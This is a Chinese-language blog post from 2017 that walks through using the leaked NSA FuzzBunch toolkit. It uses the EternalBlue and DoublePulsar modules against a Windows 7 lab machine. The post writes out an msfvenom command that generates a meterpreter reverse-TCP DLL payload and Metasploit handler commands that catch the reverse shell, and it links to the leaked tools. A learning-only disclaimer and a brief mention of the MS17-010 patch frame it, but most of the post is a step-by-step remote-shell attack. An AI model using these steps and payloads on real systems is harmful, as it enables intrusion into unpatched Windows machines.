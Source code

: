 ```yaml
---
layout: post
title: '微软末日:黑掉全球70%电脑的0day'
date: 2017-04-15 20:41:27
comments: true
tags:
	- 安全攻防
---
```


### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文

>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;今天凌晨网络上发生了一波核弹级爆炸，影子经纪人黑客组织(Shadow Brokers)又一次公布了方程式黑客组织（Equation Group）的武器库。方程式据称是美国安全局(NSA)下属的组织。

>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;早在去年8月份，影子经纪人号称入侵了方程式并且窃取了大量的机密文件，并且公布了一部分机密文件以及0day，当时我也是刚刚找到工作，没怎么关注，当时也是看了一些文章，有一些cisco等路由器设备的0day，造成了后来的数已万计的路由器成肉鸡僵尸网络，ddos美国的域名商，致半个美国的网络瘫痪。
<!--more-->
>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ok不多说了，我们来看一下今天公布的0day吧。win10以下所有的windows通杀，而且还是远程溢出攻击直接拿shell，还有传说中的3389远程溢出，是不是在瑟瑟发抖了呢，想想早在高二的时候刚刚入门网络的时候自己还是一个只知道抓鸡的小门生，2003服务器居多，当时多想有一个3389的exp，只要开了3389就可以直接拿下的，如今居然实现了。好了，下面一起来看看这个屌炸天的武器库吧。

ps:这个文章其实可以早一些时间发出来，我这个电脑12年入手的到现在已经跟随了我5年时间，开3个虚拟机太特么卡了，实验到一半就卡死重启，这让我换mbp的心更坚定了。

### 环境
 * python2.6.6/32位
 * pywin32-221.win32-py2.6

靶机 win7
![](/images/pasted-69.jpg)

攻击者1
![](/images/pasted-70.jpg)

攻击者2
![](/images/pasted-71.jpg)

### 配置

下载解压后切换到windows目录执行python fb.py
**
默认选项参数特别多，我这里只说重要需要填写的参数**

输入靶机ip和攻击者ip以及选择是否开启本地监听。

![](/images/pasted-72.jpg)

创建一个工程项目，名字随意

![](/images/pasted-73.jpg)

选择模块，选择Eternalblue模块，输入use Eternalblue

![](/images/pasted-74.jpg)

一路回车选择默认的配置，然后到了这一步我们选择目标的系统，以及攻击方式

![](/images/pasted-75.jpg)

然后继续一路回车选择默认的配置，直到我们看到了这个 success 就说明成功了。

![](/images/pasted-76.jpg)

接下来继续选择攻击方式模块，选择Doublepulsar模块， 输入use Doublepulsar，
继续一路回车，然后到这一步选择攻击的服务和目标系统的位数以及攻击方式

![](/images/pasted-77.jpg)

然后选择运行我们的payload文件，我们用msf来生成payload文件，在前面的安卓后门一章中也有讲过生成payload。

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5554 -f dll > s.dll

如果电脑是32位的就去掉x64/，默认生成的就是32位的

然后再启动配置msf，并监听反弹的shell。
```shell
    msf > use exploit/multi/handle
    msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_Tcp
    msf exploit(handler) > set LHOST 192.168.1.102
    msf exploit(handler) > set LPORT 5554
```

选择我们的payload之后继续一路回车，然后如果看到了success，就说明溢出成功了。

![](/images/pasted-78.jpg)

再来看看我们监听的反弹shell

![](/images/pasted-79.jpg)

成功反弹，喜大普奔。

### 结尾
> 可惜我没有服务器，只能做做内网测试。与此同时公布漏洞的十多个小时中，微软终于出了补丁[(点我)](https://blogs.technet.microsoft.com/msrc/2017/04/14/protecting-customers-and-evaluating-risk/)
> 并且把此漏洞定为编号MS17-010，win10以下系统更新补丁后的windows将不受影响。

### 总结
> 这个NSA的武器库，不需要做任何操作，只要是联网的，就可以做到指哪儿打哪儿，把远程溢出攻击简化成如此简单。这只是NSA武器库的冰山一角，想想美国的网络安全真的是领先我们几个世纪啊，然而每年各种黑客国际大会比赛几乎都是中国拿的冠军，原来是美国黑客压根就没参加。
> ps：这个武器库和msf很像，但是感觉没有msf好用，默认选项太多，也许是msf用习惯了吧。

下载地址：
> * [https://github.com/x0rz/EQGRP_Lost_in_Translation](https://github.com/x0rz/EQGRP_Lost_in_Translation)
